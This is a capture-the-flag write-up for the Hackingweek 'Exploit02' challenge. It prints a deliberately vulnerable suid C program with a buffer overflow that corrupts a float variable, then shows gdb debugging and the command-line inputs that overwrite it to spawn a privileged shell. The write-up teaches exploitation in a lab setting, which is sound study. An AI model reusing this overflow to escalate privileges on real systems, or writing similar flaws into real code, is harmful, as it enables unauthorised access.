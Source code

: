 # Hackingweek - Exploit02
## Challenge Text

>
Connectez-vous en tant que guest (mot de passe: xxxxxxxxx) sur la machine 37.187.xx.xx. Vous trouverez la clef de validation cachée dans le fichier /home/exploit02/.secret.
`$> ssh guest@37.187.xx.xx`

- [vuln.c](./vuln.c)

## Solution

We connect to the remote host.
A suid binary with its source code (vuln.c) is in the home directory.


```c
#include <stdio.h>
#include <stdlib.h>

int
main (int argc, char **argv)
{
  if (argc < 3)
    {
      fprintf (stderr, "error: missing argument ! Usage: ./vulnerable 10 AAA\n");
      exit (EXIT_FAILURE);
    }

  int size = atoi(argv[1]);
  float fsize = ((float) size) / 100;
  if (size > 1024)
    {
      fprintf (stderr, "error: cannot go more than 1024 !\n");
      exit (EXIT_FAILURE);
    }
  else if (size < 0)
    {
      fprintf (stderr, "error: cannot be a negative number !\n");
      exit (EXIT_FAILURE);
    }

  float x;
  int i = 0;
  char buffer[1024];

  for (x = 0; x < fsize; x + 0.01)
    buffer[i++] = argv[2][0];

  for (i = 0; i < size; i++)
    printf(" %c", buffer[i]);
  fputs("\n", stdout);

  printf("x = %f\n", x); // Added for debug
  if (x > 80000000000000000000000000000000000000.0)
    system ("/bin/sh");

  return EXIT_SUCCESS;
}
```

The goal is clear : Bypass the following line to pop a shell

```c
if (x > 80000000000000000000000000000000000000.0)
```

### What is x ?


The vulnerable code is here :

```c
float x;
int i = 0;
char buffer[1024];

for (x = 0; x < fsize; x + 0.01)
  buffer[i++] = argv[2][0];
```

- x is never incremented
-> we should have an infinite loop

- the loop stop
-> the buffer overflow on x


We can clearly see it with some gdb magic :
```
$ sh compil.sh && gdb ./a.out
gdb-peda$ break * 0x080486a5
gdb-peda$ command 1
> print buffer
> print x
> continue
> end
gdb-peda$ r 11 a

[..]
Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2047 = 'a' <repeats 1023 times>"\377, "
$2048 = 0

Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2049 = 'a' <repeats 1024 times>
$2050 = 0

Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2051 = 'a' <repeats 1024 times>
$2052 = 1.35925951e-43

Breakpoint 1, 0x080486a5 in main (argc=0x3, argv=0xffffd584) at vuln.c:30
30    for (x = 0; x < fsize; x + 0.01)
$2053 = 'a' <repeats 1024 times>
$2054 = 3.49329694e-41
[..]
```

We can now assume that the value of x will depend on the value of `argv[2][0]`.

### Please let me in

`$ ./a.out 11 $(echo -ne '\x7d')`
>
 } } } } } } } } } } }  
x = 21059140958881314109814530731155652608.000000  
$

Not enough ! We try higher in the ascii table (man ascii).

`./a.out 11 $(echo -ne '\x7e')`
>
 ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~  
x = 84570173979288520027308813300587823104.000000  
# exit  
$


`./a.out 11 $(echo -ne '\x7f')`
>
             
x = 339615136492207134461438014706212143104.000000  
# exit  
$

Job is done.